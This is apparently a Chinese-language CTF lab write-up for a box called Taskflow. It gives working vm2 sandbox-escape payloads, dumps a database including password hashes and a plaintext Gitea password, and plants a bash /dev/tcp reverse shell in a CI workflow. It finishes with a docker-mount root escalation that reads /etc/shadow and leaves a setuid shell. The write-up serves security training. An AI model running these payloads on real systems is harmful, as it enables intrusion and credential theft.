










# Recon
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 10.5 (protocol 2.0)
80/tcp open  http    syn-ack ttl 62 nginx 1.30.4
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://taskflow.hsm/
|_http-server-header: nginx/1.30.4
```

Hacksmater 的 box 默认 TTL 就是 63, 这意味着 `22` 和 `80` 都是在容器中的.

# Web - taskflow.hsm
一个托管进度管理的网站:

## Enum
没有收录在字典中的子域名
```sh
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.0.23.49 -H 'Host: FUZZ.taskflow.hsm' -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.23.49
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.taskflow.hsm
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

:: Progress: [4989/4989] :: Job [1/1] :: 79 req/sec :: Duration: [0:01:31] :: Errors: 53 ::
```

```sh
# Dirsearch started Sat Oct 17 22:24:05 2026 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://taskflow.hsm/

200     2KB  http://taskflow.hsm/login
200     2KB  http://taskflow.hsm/profile
200     5KB  http://taskflow.hsm/blog
404    66B   http://taskflow.hsm/api
200     3KB  http://taskflow.hsm/pages
200     2KB  http://taskflow.hsm/signup
200     7KB  http://taskflow.hsm/board
200     4KB  http://taskflow.hsm/archived
404    70B   http://taskflow.hsm/api-doc
404    67B   http://taskflow.hsm/apis
```
## techstack
webroot:
```http
HTTP/1.1 200 OK
Server: nginx/1.30.4
Date: Sun, 18 Oct 2026 04:24:41 GMT
Content-Type: text/html
Content-Length: 0
Connection: keep-alive
Vary: Origin
Cache-Control: no-cache
ETag: W/"1b56-HJ0k29p4VYtoRz/KqtjfQONWdN8"
```
看不出来什么

`/api`:
```http
curl -I taskflow.hsm/api
HTTP/1.1 404 Not Found
Server: nginx/1.30.4
Date: Sun, 18 Oct 2026 04:25:37 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 67
Connection: keep-alive
Vary: Origin
Access-Control-Allow-Credentials: true
ETag: W/"43-N1aFN4kauKun/gkEr1K78yvd2Lg"
X-Powered-By: Express
```
由 `Express` 构建. 错误页面显示其使用 `astra`:


## auth as guest
有登录和注册页面, 先去看 blog. blog 写了其中的架构信息, 指出有一项 `node.js` 沙盒功能, 同时各个服务器运行在单向通行的 docker 网络中, docker 网络无法访问外部网络, 验证了 TTL 结果.


## registed
注册一个账号, 重定向到 `board`, 有一些功能:

在 `pages` 中找到一个子域名:
```markdown
### Links
- [Visit Taskflow](http://taskflow.hsm)
- [GitHub Repository](http://gitea.taskflow.hsm)
```
### Exec via CVE-2026-22709 on /api/automations
根据 Blog, 其使用 node.js 的沙盒执行命令, 尝试 [CVE-2026-22709](https://github.com/patriksimek/vm2/security/advisories/GHSA-99p7-6v5w-7xg8). 源利用代码在该环境无回显, 但根据 Blog 该沙箱额外开放了 `log` 函数:
```js
const error = new Error();
error.name = Symbol();
const f = async () => error.stack;
const promise = f();
promise.catch(e => {
    const Error = e.constructor;
    const Function = Error.constructor;
    const f = new Function(
        "return process.mainModule.require('child_process').execSync('<command here>',)"
    );
    log(f());
});
```

当前用户为 `sandbox`, 位于 Docker 环境中, 连接仅限内部网络, 但环境变量中暴露了 `postgreSQl` 凭据:
```sh
DATABASE_URL=postgresql://taskflow:Pgta5kfl0w_Pr0d!@db:5432/taskflow
NODE_VERSION=20.20.1
HOSTNAME=d045dd66d0b9
YARN_VERSION=1.22.22
SHLVL=2
HOME=/home/sandbox
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SANDBOX_SECRET=sandbox-shared-secret-change-in-production
PWD=/app
```

当前目录位于 `/app`, 可以读到整个 Web 页面源代码的一部分, 该沙箱设置有显示长度显示:
:::code-tree{title="codeleak" height="380px" entry="/app/src/index.js"}
```js title='/app/src/executor.js'
const vm = require('vm')

const FIELD_MAP = {
  title: 'title',
  description: 'description',
  status: 'status',
  priority: 'priority',
  timeSpent: 'time_spent',
  startDate: 'start_date',
  dueDate: 'due_date',
  endDate: 'end_date',
}

const DATE_FIELDS = new Set(['startDate', 'dueDate', 'endDate'])

const ENUM_FIELDS = {
  status: {
    cast: '"TaskStatus"',
    allowed: ['backlog', 'todo', 'inprogress', 'testing', 'done', 'archived'],
  },
  priority: {
    cast: '"TaskPriority"',
    allowed: ['low', 'medium', 'high'],
  },
}

const TIMEOUT_MS = 5000

function mapTaskRow(row) {
  return {
    id: row.id,
    userId: row.user_id,
    title: row.title,
    description: row.description,
    timeSpent: row.time_spent,
    status: row.status,
    priority: row.priority,
    startDate: row.start_date,
    dueDate: row.due_date,
    endDate: row.end_date,
    createdAt: row.created_at,
    updatedAt: row.updated_at,
  }
}

async function execute(code, userId, pool) {
  const userRes =
<NODATA>
```


```js title='/app/src/index.js'
const express = require('express')
const pool = require('./db')
const { execute } = require('./executor')

const app = express()
const PORT = process.env.PORT || 3001
const SANDBOX_SECRET = process.env.SANDBOX_SECRET

app.use(express.json({ limit: '1mb' }))

app.use('/health', (_req, res) => {
  res.json({ status: 'ready' })
})

async function handleExec(req, res) {
  const reqData = {
    ...req.body,
    ...req.query,
  }

  if (SANDBOX_SECRET) {
    const auth = req.headers.authorization || reqData.token
    if (auth !== `Bearer ${SANDBOX_SECRET}`) {
      return res.status(401).json({
        error: 'Unauthorized: Provide a valid Bearer token'
      })
    }
  }

  const { code, userId } = reqData

  if (!code || !userId) {
    return res.status(400).json({ error: 'Missing required fields: code, userId' })
  }

  try {
    const result = await execute(code, userId, pool)
    res.json(result)
  } catch (err) {
    console.error('Execution error:', err)
    res.json({
      success: 
<NODATA>
```

```js title='/app/src/db.js'
const { Pool } = require('pg')

const pool = new Pool({
  connectionString: process.env.DATABASE_URL,
})

pool.on('error', (err) => {
  console.error('Unexpected DB pool error:', err.message)
})

module.exports = pool
<NODATA>
```
:::

### Dump the db
数据库查询使用了 `pg` [库](https://node-postgres.com/), 若能导入即可使用该库查询 postgresql. 容器本地已经实现了 `db.js` 可以尝试将其导入沙箱. 暴露的 `db.js` 表明其导出了数据库:

更改沙箱利用代码并修正 `pool` 查询对 `await` 对需求:
```js
const error = new Error();
error.name = Symbol();
const f = async () => error.stack;
const promise = f();
promise.catch(async (e) => {
    const Error = e.constructor;
    const Function = Error.constructor;

    const db = new Function(
        "return process.mainModule.require('/app/src/db.js')"
    );
    const pool = db();
    const r = await pool.query("SELECT current_database()");
    log(JSON.stringify(r.rows));
});
```

可以 DUMP 数据库, 截图省略:
```json
// SELECT current_database()
[{"current_database":"taskflow"}]
// SELECT table_name FROM information_schema.tables WHERE table_schema='public
[{"table_name":"users"},{"table_name":"tasks"},{"table_name":"comments"},{"table_name":"automations"},{"table_name":"pages"},{"table_name":"images"}]
// select * from users
[
  {
    "id": 5,
    "username": "tld3035",
    "password_hash": "$2b$10$.ZKvtKU1oQGqkua04QbuUunweT4o6QtC3zlGZzy/sOQQZ7dfyMw02",
    "email": "tld3035@example.com",
    "created_at": "2026-09-10T19:45:26.488Z",
    "is_admin": false
  },
  {
    "id": 6,
    "username": "tld3035b",
    "password_hash": "$2b$10$bTKodYggwXiNRmntBmqG5OuPo2rZUVST46MkNbSXPCcQUPgGlkfrC",
    "email": "tld3035b@example.com",
    "created_at": "2026-09-10T19:45:26.561Z",
    "is_admin": false
  },
  {
    "id": 7,
    "username": "echoes",
    "password_hash": "$2b$10$fw6qgEdg2fgb.e5ww3u45.ELfSNmiCYFoPqAv5M5Ol/.bU7nq7F2O",
    "email": "echoesofwhoami@taskflow.hsm",
    "created_at": "2026-09-10T19:53:27.668Z",
    "is_admin": false
  },
  {
    "id": 76,
    "username": "solver39256338",
    "password_hash": "$2b$10$wP8SrE2zTP9ZEVqO9LJH6uQf3xy0RE41NfdZSmW95m6ky57EXW6Vq",
    "email": "solver39256338@example.com",
    "created_at": "2026-09-11T17:05:37.639Z",
    "is_admin": false
  },
  {
    "id": 1,
    "username": "admin",
    "password_hash": "$2b$10$fPk4o5yfiI278RCjxl/EXe7PeX5waTsFq3U8xoVoBjYU3tEyioV56",
    "email": "admin@taskflow.hsm",
    "created_at": "2026-03-24T19:06:44.023Z",
    "is_admin": true
  }
]

```
全部的 hash 破解预期五天, 只破解邮箱为 `taskflow.hsm` 的两个, 但爆破时间超出预期, 无法且与 `gitea` 上用户名缺乏关联.

在 DUMP 所有的表后, 得到以下信息:
```json
[
  {
    "id": 1,
    "task_id": 4,
    "content": "Randy confirmed he can start next week. Need to get his access sorted before Monday."
  },
  {
    "id": 2,
    "task_id": 4,
    "content": "Created the account on gitea.taskflow.hsm:\n\nUsername: randy\nPassword: R4ndyFr33worK!2025\n\nHe should change this on first login but knowing Randy he probably won't."
  },
  {
    "id": 3,
    "task_id": 4,
    "content": "SSH key upload is enabled so he can push via git+ssh once he adds his public key."
  },
  {
    "id": 4,
    "task_id": 4,
    "content": "Done. Sent Randy the credentials via encrypted email."
  },
  {
    "id": 5,
    "task_id": 1,
    "content": "Pipeline is green. E2E tests run on every push to main. Deploys automatically if tests pass."
  },
  {
    "id": 6,
    "task_id": 11,
    "content": "I feel so many things at the same time"
  },
  {
    "id": 7,
    "task_id": 12,
    "content": "Try slightly harder"
  }
]
```

给出了一组凭据. `randy:R4ndyFr33worK!2025`, 同时指出其设置了 CI, 会在 `push` 到 main 分支时完成一次 CI.

# Web - gitea.taskflow.hsm
版本号指出其版本为: `1.27.3`.




没有公开的储存库, 但有两个用户, 使用上文的凭据可以登录 `randy`
1. admin
2. randy

## CI abuse


其有一个 `private` 的存储库, 其 CI 设置如下:
```yaml
name: TaskFlow CI

on:
  push:
    branches: [main]

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout
        uses: actions/checkout@v4

      - name: Install dependencies
        run: |
          cd backend
          bun install

      - name: Run e2e tests
        run: |
          cd backend
          bun test:e2e 2>&1 || {
            echo "=== Tests failed ==="
            echo "Collecting build metadata for error report..."
            APP_VERSION=$(cat package.json | xargs echo)
            echo "Build metadata: $APP_VERSION"
            exit 1
          }
```

同时有一个 issue 指出 CI 回因为版本不匹配而失败. 不过看起来开发者不准备修了, lol.

根据已有 CI 报错, 发现其会在主机上执行命令. 但无法通过直接修改 `install dependencies` 和 `run e2e test` 执行命令. 其会在 `Checkout` 报错并跳过后续流程.

推测是某个可能的下载流程导致了因网络访问导致的中断, 移除 `bun install` 并添加 shell:
```yaml
name: TaskFlow CI

on:
  push:
    branches: [main]

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - name: shell
        run: |
          /bin/bash -i >& /dev/tcp/10.200.108.191/4444 0>&1
    

      - name: Install dependencies
        run: |
          cd backend

      - name: Run e2e tests
        run: |
          cd backend
          bun test:e2e 2>&1 || {
            echo "=== Tests failed ==="
            echo "Collecting build metadata for error report..."
            APP_VERSION=$(cat package.json | xargs echo)
            echo "Build metadata: $APP_VERSION"
            exit 1
          }
```

# shell as echoes
```bash
┌──(stackcat㉿r1ngz0ps)-[~/Documents/hs/Taskflow/repo]
└─$ pwncat-vl -lp 4444
[00:59:11] Welcome to pwncat 🐈!                                                                                                                                                             __main__.py:16 9
bound to 0.0.0.0:4444 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
[01:17:47] received connection from 10.1.102.128:44892                                                                                                                                            bind.py:85
[01:17:51] 0.0.0.0:4444: normalizing shell path                                                                                                                                              manager.py:1001
[01:17:57] 10.1.102.128:44892: registered new host w/ db 
```

一些枚举:
```bash
(remote) echoes@:/home/echoes$ id
uid=1000(echoes) gid=1000(echoes) groups=1000(echoes),970(docker),998(wheel)
```

看起来不需要后续枚举了, 使用 docker 挂载容器:
```bash
(remote) echoes@:/home/echoes$ docker images
                                                                                        i Info →   U  In Use
IMAGE                                                       ID             DISK USAGE   CONTENT SIZE   EXTRA
bitnami/git:latest                                          e1d8c8b3fe0d       1.26GB          347MB
ghcr.io/actions/test-ubuntu-git:main.20240221.114913.703z   c596ff4dc901        308MB         88.2MB
node:20-alpine                                              b88333c42c23        194MB         48.7MB
oven/bun:1-alpine                                           7ed9f74c326d        153MB         44.8MB    U
postgres:16-alpine                                          20edbde7749f        395MB          111MB    U
taskflow-sandbox:latest                                     6b611c6db80b        209MB         50.3MB    U
ubuntu/squid:latest                                         6a097f68bae7        303MB         70.3MB

(remote) echoes@:/home/echoes$ docker run --rm -it -v /:/host  --entrypoint /bin/sh node:20-alpine -c 'chroot /host /bin/sh'
```

# root
```sh
sh-5.3# cat /etc/shadow
root:$y$j9T$2RFSzG32Kk4UOUKF27tbC0$XS2DtP4I8ZEFRhuxdwU8tcPS2NlUN60ggaAwSewO6G0:20706::::::
echoes:$y$j9T$10qdwFPVFBY7szhT0bBHd.$CW/F3.inu7qX3NQh7SyWEcCcXSG63fZyD/RAT9fsjF1:20706:0:99999:7:::
```

做一个 root shell:
```sh
sh-5.3# cp /bin/bash .
sh-5.3# ls /bash -liah
2529 -rwxr-xr-x 1 root root 1.2M Oct 18 05:35 /bash
sh-5.3# chmod +s /bash
sh-5.3# ls /bash -liah
2529 -rwsr-sr-x 1 root root 1.2M Oct 18 05:35 /bash

(remote) echoes@:/home/echoes$ /bash -p
(remote) root@:/root# id
uid=1000(echoes) gid=1000(echoes) euid=0(root) egid=0(root) groups=0(root),970(docker),998(wheel),1000(echoes)
(remote) root@:/root# ip -br -4 a
lo               UNKNOWN        127.0.0.1/8
ens5             UP             10.1.102.128/18 metric 1024
br-b800f18eacf6  UP             172.19.0.1/16
br-39738f07176a  UP             172.18.0.1/16
docker0          DOWN           172.17.0.1/16
```

